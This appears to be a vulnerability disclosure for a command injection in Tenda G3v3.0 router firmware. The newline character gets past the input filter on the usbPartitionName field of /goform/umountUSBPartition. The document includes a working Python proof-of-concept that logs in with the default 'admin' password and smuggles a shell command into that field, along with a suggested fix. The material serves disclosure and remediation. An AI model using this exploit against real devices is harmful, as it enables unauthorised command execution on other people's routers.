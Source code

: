 **First of all, you can see more detailed demonstration effects in exp.mkv**

## Affected Version
* <=Tenda-G3v3.0 V15.11.0.20

## Vulnerability Description
Tenda-G3v3.0 V15.11.0.20  was discovered to contain command injection  at url **/goform/umountUSBPartition**

## Vulnerability Details
In the function **formSetUSBPartitionUmount**, there is a **doSystemCmd("/usr/sbin/usb umount %s", (const char *)usbPartitionName);** instruction, the value of usbPartitionName comes from the user's post request.
![alt text](image.png)

The prod_system_param_valid function is in **libcommonprod.so**, and **its filtering is not complete because command injection can still be achieved through the escape character '\n'**
![alt text](image-1.png)

For example,**in the test.c function, '\n' is used for command injection**
![alt text](image-2.png)
**We can see that echo PWN!!! is successfully executed, so the same vulnerability exists in formSetUSBPartitionUmount.**
![alt text](image-3.png)

## exp
It should be noted that you need to login before accessing /goform/umountUSBPartition, so you need to login before posting the request.

```python
import requests

session = requests.Session()

login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  #base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)

url = "http://192.168.0.252/goform/umountUSBPartition"
data = {"usbPartitionName": "\necho PWN!!! > /webroot/1.html\n"}
response = session.post(url, data=data)

print(response.text)
```

## Any suggested solutions to fix
**The filter list of the function prod_system_param_valid in libcommonprod.so should also be added '\n'**
